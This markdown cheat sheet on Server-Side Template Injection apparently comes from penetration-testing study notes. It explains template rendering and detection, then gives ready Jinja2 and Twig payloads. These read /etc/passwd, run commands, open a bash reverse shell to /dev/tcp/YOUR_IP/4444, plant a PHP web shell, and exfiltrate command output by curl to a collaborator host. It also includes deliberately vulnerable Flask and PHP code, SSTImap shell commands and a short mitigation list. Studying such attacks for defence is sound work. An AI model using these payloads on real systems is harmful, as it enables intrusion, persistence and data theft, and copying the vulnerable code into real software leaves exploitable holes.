

### Content

- [Overview](#overview)
- [Identifying](#identifying)
- [Jinja2 - Python](#jinja2---python)
	- [Vulnerable Code](#vulnerable-code)
- [Twig - PHP](#twig---php)
	- [Vulnerable Code](#vulnerable-code)
- [Automation with SSTImap](#automation-with-sstimap)
- [Mitigation](#mitigation)

> [PayloadsAllTheThings SSTI CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

---
### Overview

Web applications use templating engines to dynamically generate responses based on user input. If an attacker can inject malicious template code, a **Server-Side Template Injection** (SSTI) vulnerability occurs, potentially leading to data leakage, RCE, and more.
A template engine combines pre-defined templates with dynamic data, for example, maintaining shared headers and footers across pages while injecting dynamic content. This reduces code duplication and improves maintainability. Popular examples include `Jinja` and `Twig`.

Template engines take two inputs: a template (string or file) and key-value pairs. The template contains predefined placeholders, each marked with a key. The process of combining both into a final output is called rendering. When rendering, the engine scans the template and replaces each placeholder with its corresponding value from the provided pairs.

Example for template syntax using `Jinja` before and after rendering:

```JS

Hello {{ name }}!

// If we passed the array ['name1','name2'] to the function
//After rendering:
Hello name1!
Hello name2!
```

Template engines are secure when user input is passed as values to the rendering function, the engine simply inserts them into placeholders without executing any code within them. 

SSTI can occur in three main scenarios:

1. User input injected into the template string before rendering is called, causing the engine to treat it as template code.
2. Double rendering, if user input ends up in the output of a first render, it gets treated as part of the template in a second render.
3. User-controlled templates, when the application allows users to modify or submit templates directly.

---
### Identifying

1. Confirm that the vulnerability is present.
2. Identify the used template engine.

Use the following string as a test to provoke an error message, as it consists of all special characters that have a particular semantic purpose in popular template engines: `${{<%[%'"}}%\.`

```bash
$ curl -I 'http://154.57.164.70:32508/index.php?name=username'
HTTP/1.1 200 OK
[SNIP]

$ curl -I 'http://154.57.164.70:32508/index.php?name=%24%7b%7b%3c%25%5b%25%27%22%7d%7d%25%5c%2e'           HTTP/1.0 500 Internal Server Error
[SNIP]
```

You can follow the drawn map below, till you reach the template engine responsible for the website.



---
### Jinja2 - Python

- `Jinja` is a template engine commonly used in Python web frameworks such as `Flask` or `Django`.
- We can use the are already imported by the Python application.
- We may be able to import additional libraries through the use of the `import` statement.

Useful payloads:

```python
# Obtain the web application's configuration:
{{ config.items() }}

# Dump all available built-in functions:
{{ self.__init__.__globals__.__builtins__ }}

# LFI through built-in open() function:
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}

##################################################################
# RCE through the os library, using functions such:
## popen
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

## system
### Reverse shell:
{{ self.__init__.__globals__.__builtins__.__import__('os').system('bash -c "bash -i >& /dev/tcp/YOUR_IP/4444 0>&1"') }}
### Create a file:
{{ self.__init__.__globals__.__builtins__.__import__('os').system('echo "<?php system($_GET[cmd]); ?>" > /var/www/html/shell.php') }}
### Blind RCE:
{{ self.__init__.__globals__.__builtins__.__import__('os').system('curl http://YOUR_BURP_COLLABORATOR/?x=$(id)') }}
```

###### Vulnerable Code

```Python
from flask import Flask, render_template_string, render_template, request
from datetime import datetime

# Create a Flask app
app = Flask(__name__)

@app.route('/')
def index():
    name = request.args.get('name')
    source_ip = request.remote_addr
    current_time = datetime.now().strftime("%Y-%m-%d %H:%M:%S")

    template = (
        f'Hi {name}!<br/><br/>'
        'Your IP: {{ ip }}<br/><br/>'
        'Current Time: {{ time }}<br/><br/>'
    )

    content = render_template_string(template, ip=source_ip, time=current_time)
    return render_template('template.html', content=content)
if __name__ == '__main__':
    app.run(host="0.0.0.0", port=80, debug=False)
```

> Flask website root directory may be `/root`

---
### Twig - PHP

Twig is a template engine for the PHP programming language.

Obtain a little information about the current template:

```PHP
{{ _self }}
```

If the PHP web framework [Symfony](https://symfony.com/) is used to build the website, it defines additional Twig filters. One of these filters is [file_excerpt](https://symfony.com/doc/current/reference/twig_reference.html#file-excerpt) and can be used to achieve LFI: 

```PHP
# {{ file|file_excerpt(line, srcContext = 3) }}
# Generates an excerpt of a code file around the given line number. The "srcContext" argument defines the total number of lines to display around the given "line" number (use -1 to display the whole file).
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

To achieve RCE, use PHP built-in function such as `system`. We can pass an argument to this function by using Twig's `filter` function:

```PHP
{{ ['id'] | filter('system') }}
```

###### Vulnerable Code

```PHP
<?php

require_once 'vendor/autoload.php';

$loader = new \Twig\Loader\FilesystemLoader('./');
$twig   = new \Twig\Environment($loader);

include("header.txt");

if (isset($_GET['name'])) {

    $t = 'Hi ' . $_GET['name'] . '!<br/><br/>'
       . 'Your IP: {{ ip }}<br/><br/>'
       . 'Current Time: {{ time }}<br/><br/>';

    $template = $twig->createTemplate($t);

    echo $template->render([
        'ip'   => $_SERVER['REMOTE_ADDR'],
        'time' => date("Y-m-d H:i:s"),
    ]);

} else { ?>

    <br/>
    <form action='index.php'>
        Enter your name: <input type='text' name='name'/><br/><br/>
        <input type='submit' value='Submit'/>
    </form>

<?php }

include("footer.txt");

?>
```

---
### Automation with SSTImap

[SSTImap](https://github.com/vladko312/SSTImap) is a tool for identifying and exploiting SSTI vulnerabilities.

```bash
# Identify any SSTI vulnerabilities, and the template engine used by the web application
$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test

# Download a remote file from the target
$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd'

# RCE
$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S whoami
# Interactive shell
$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell
```

---
### Mitigation

- Ensure that user input is never passed to the template before a call to the rendering function.
- If the web application designed to give the user the capability to edit the templates:
	- Remove potentially dangerous functions that can be used to achieve remote code execution from the execution environment. 
	- Separate the execution environment in which the template engine runs entirely from the web server (ex: docker)